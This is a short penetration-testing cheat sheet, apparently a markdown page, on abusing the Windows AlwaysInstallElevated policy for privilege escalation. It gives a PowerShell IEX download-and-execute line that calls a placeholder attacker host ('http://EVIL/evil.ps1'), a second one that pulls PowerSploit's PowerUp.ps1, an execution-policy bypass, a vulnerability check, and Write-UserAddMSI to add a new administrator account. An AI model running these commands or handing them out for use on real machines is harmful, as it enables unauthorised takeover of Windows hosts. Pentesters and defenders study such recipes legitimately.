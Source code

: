 ## Always Install Elevated

Windows environments provide a group policy setting which allows a regular user to install a Microsoft Windows Installer Package (MSI) with system privileges. This can be discovered in environments where a standard user wants to install an application which requires system privileges and the administrator would  like to avoid to give temporary local administrator access to a user.

Get https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

In Powershell
```
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")
or
IEX (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1")
```

```
powershell -ep bypass
Import-Module PowerUp.ps1
Get-RegistryAlwaysInstallElevated
```

If the last command returns True, system is vulnerable.

You can add an admin user by typing the following command.

```
Write-UserAddMSI 
```

You will get a prompt to enter the username and the password for the new user.


### References
https://pentestlab.blog/2017/02/28/always-install-elevated/
